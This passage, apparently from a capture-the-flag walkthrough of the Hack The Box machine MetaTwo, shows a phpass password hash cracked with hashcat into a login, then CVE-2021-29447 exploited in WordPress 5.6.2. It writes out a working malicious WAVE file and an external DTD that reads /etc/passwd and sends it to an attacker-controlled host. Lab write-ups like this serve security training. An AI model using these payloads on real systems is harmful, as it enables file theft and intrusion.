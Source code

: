 	Most Likely
	Wordpress ≥ v2.6.2, HC: 400 JtR: phpass
	Joomla ≥ v2.5.18, HC: 400 JtR: phpass
	PHPass' Portable Hash, HC: 400 JtR: phpass
	
	
	$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
	
	Most Likely
	Wordpress ≥ v2.6.2, HC: 400 JtR: phpass
	Joomla ≥ v2.5.18, HC: 400 JtR: phpass
	PHPass' Portable Hash, HC: 400 JtR: phpass
	```
	> Hashing Algorithm
	> - `phpass` 
	{: prompt-info}
6. Crack hash w/ `hashcat`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# hashcat -a 0 -m 400 hash /usr/share/wordlists/rockyou.txt --show
	$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
	```
	> Valid Credential
	> - `manager:partylikearockstar`
	{: prompt-info}
7. Login w/ `manager:partylikearockstar`

## TCP/80 (HTTP) - WP Core 5.6.2 Authenticated XXE
1. Since we have a set of valid credential, let's try to exploit the Authenticated XXE Vulnerability found earlier.
2. Search exploits for `Wordpress 5.6.2 Authenticated XXE`
	>[POC of WP Core 5.6.2 Authenticated XXE (CVE-2021-29447)](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)
	{: prompt-info}
3. How does  `Wordpress 5.6.2 Authenticated XXE` work?
	> WordPress uses ID3 library to parse information about an audio file uploaded in the Media Library that was vulnerable to XXE due to a XML parsing issue, allowing authenticated user to do to remote arbitrary file disclosure.
	{: prompt-info}
4. Try [POC of WP Core 5.6.2 Authenticated XXE (CVE-2021-29447)](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)
	1. Create malicious `WAVE` file
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.13:4444/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
		
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# cat payload.wav
		RIFFWAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.10.14.13:4444/evil.dtd'>%remote;%init;%trick;]>┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		```
		> Why do we need `WAVE` file.
		> - This file contains the reference to the malicious dtd file, we must do so because this is a blind XXE vulnerability, meaning the parsed XML data will not be reflected/sent back to user, we are gonna need a blind XXE payload. We can do so by using an external dtd file.
		{: prompt-info}
	2. Create `dtd` file
		```xml
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# cat evil.dtd
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
		<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.13:4444/?p=%file;'>" >
		```